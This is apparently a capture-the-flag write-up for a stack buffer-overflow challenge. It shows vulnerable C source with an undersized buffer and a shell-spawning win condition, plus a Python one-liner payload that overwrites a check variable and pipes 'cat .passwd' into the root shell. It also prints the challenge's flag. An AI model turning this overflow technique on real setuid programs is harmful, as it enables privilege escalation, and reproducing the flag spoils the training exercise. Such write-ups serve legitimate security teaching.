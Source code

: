 ```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
```sh
app-systeme-ch13@challenge02:~$ python
Python 2.7.17 (default, Feb 27 2021, 15:10:58)
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

```python 2.7
>>> print "\xef\xbe\xad\xde"
ﾭÞ
```

```bash
app-systeme-ch13@challenge02:~$ python -c 'print "a"*40+"\xef\xbe\xad\xde" + "\x00"*4052 + "cat .passwd"' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
1w4ntm0r3pr0np1s
Shell closed! Bye.
```


[buf]: 0000000000000000000000000000000000000000ﾭÃ